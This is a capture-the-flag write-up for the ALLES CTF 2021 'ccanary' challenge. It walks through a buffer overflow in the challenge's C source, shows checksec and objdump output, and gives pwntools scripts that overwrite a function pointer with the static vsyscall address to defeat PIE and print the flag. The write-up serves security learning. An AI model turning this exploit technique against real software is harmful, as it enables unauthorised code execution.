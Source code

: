```yaml
---
layout: post
title: ALLES CTF 2021
subtitle: Writeups for ALLES CTF 2021 
tags: [ctf, pwn, writeups]
comments: true
---
```

# ccanary

## Description
```
I'm using arch btw... ¯\_(ツ)_/¯
```
## Challenge files:
- [ccanary](/uploads/ALLES2021/ccanary/ccanary)
- [ccanary.c](/uploads/ALLES2021/ccanary/ccanary.c)

Look at the source code, we can see that it got a **buffer overflow vulnerability** at the `quotegets` function:
```c
void quotegets(char* inp) {
	*inp = '"';
	// read input
	for (; *inp != '\n';)
		*++inp = fgetc(stdin);
	// append postfix
	for (char* postfix = "\"\n- you, 2021"; *postfix; postfix++)
		*inp++ = *postfix;
	// NUL-terminate
	*inp = 0;
}
```

Look at the main function, looks like we can overwrite the `call_canary` and `give_flag`  inside the structure variable:
```c
int main(void) {
    ignore_me_init_buffering();
    struct data data = {
        .yourinput = { 0 },
        .call_canary = canary,
        .give_flag = 0,
    };

    printf("quote> ");
    quotegets((char*) &data.yourinput);

    data.call_canary();
    puts("good birb!");

    puts("");
    puts((char*) &data.yourinput);

    if (data.give_flag) {
        puts("Here's the flag:");
        system("cat flag");
    }
    return 0;
}
```

Unfortunately, running checksec the binary have PIE enabled (means function address random)
```
checksec ccanary
[*] '/home/hong/ctf/alles2021/ccanary/ccanary'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

## Exploit
So basically we must overwrite the `give_flag` to anything, then it will run `cat flag.txt` for us

But the `call_canary` also will overwritten, if we overwrite it with invalid function address, it will just SEGFAULT before it prints the flag

### Attempt 1
Assume the machine PIE feauture is disabled, so we can overwrite it with the default address

I first compile it with `no-pie` flag, then view the default address:
```bash
gcc -o test ccanary.c -no-pie 
objdump -x test
...
...
00000000004013b0 g     F .text  0000000000000065              __libc_csu_init
0000000000404090 g       .bss   0000000000000000              _end
0000000000401120 g     F .text  0000000000000005              .hidden _dl_relocate_static_pie
00000000004010f0 g     F .text  000000000000002f              _start
0000000000404058 g       .bss   0000000000000000              __bss_start
00000000004012ce g     F .text  00000000000000dd              main
0000000000000000       F *UND*  0000000000000000              setvbuf@@GLIBC_2.2.5
0000000000401252 g     F .text  000000000000007c              quotegets
0000000000404058 g     O .data  0000000000000000              .hidden __TMC_END__
0000000000401000 g     F .init  0000000000000000              .hidden _init
000000000040123b g     F .text  0000000000000017              canary
0000000000404080 g     O .bss   0000000000000008              stderr@@GLIBC_2.2.5
```

Then I wrote a pwntools script to exploit it:
```py
from pwn import *
elf = ELF("./test")

p = elf.process()
p.sendlineafter(b"quote> ",(b"a"*31+p64(0x40123b)))
p.interactive()
```
```
 python3 solve.py
[*] '/home/hong/ctf/alles2021/ccanary/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/hong/ctf/alles2021/ccanary/test': pid 1147
[*] Switching to interactive mode
canary: *chirp* *chirp*
good birb!

"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa;\x12
Here's the flag:
cat: flag: No such file or directory
[*] Got EOF while reading in interactive
```
It works locally! But it failed in the real machine...
```py
p = remote("7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net", 31337,ssl=True)
p.sendlineafter(b"quote> ",(b"a"*31+p64(0x4012ce)))
p.interactive()
```
```
python3 solve.py
[*] '/home/hong/ctf/alles2021/ccanary/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Starting local process '/home/hong/ctf/alles2021/ccanary/test': pid 1300
[+] Opening connection to 7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net on port 31337: Done
[*] Switching to interactive mode
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to 7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net port 31337
```

## Attempt 2
Maybe the address not start with 4? So I tried to brute force from 1 to 9 address.

But It fails again...

## Attempt 3
At the end I did not solve this during the CTF.. I look for writeups at the Discord, and I saw someone mention about overwrite with `vsyscall` address

The `vsyscall` address at Linux kernel so will be static for all systems I guess?

[vsyscall and vdso](http://terenceli.github.io/%E6%8A%80%E6%9C%AF/2019/02/13/vsyscall-and-vdso)

Then I tried the address `0xffffffffff600000` it works like charm!!

```
python3 solve.py
[*] '/home/hong/ctf/alles2021/ccanary/test'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 7b000000a8c3acb6af92129b-ccanary.challenge.master.allesctf.net on port 31337: Done
[*] Switching to interactive mode
good birb!

"aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Here's the flag:
ALLES!{th1s_m1ght_n0t_work_on_y0ur_syst3m_:^)}

```
[Full script](/uploads/ALLES2021/ccanary/solve.py)

## Flag
```
ALLES!{th1s_m1ght_n0t_work_on_y0ur_syst3m_:^)}
```
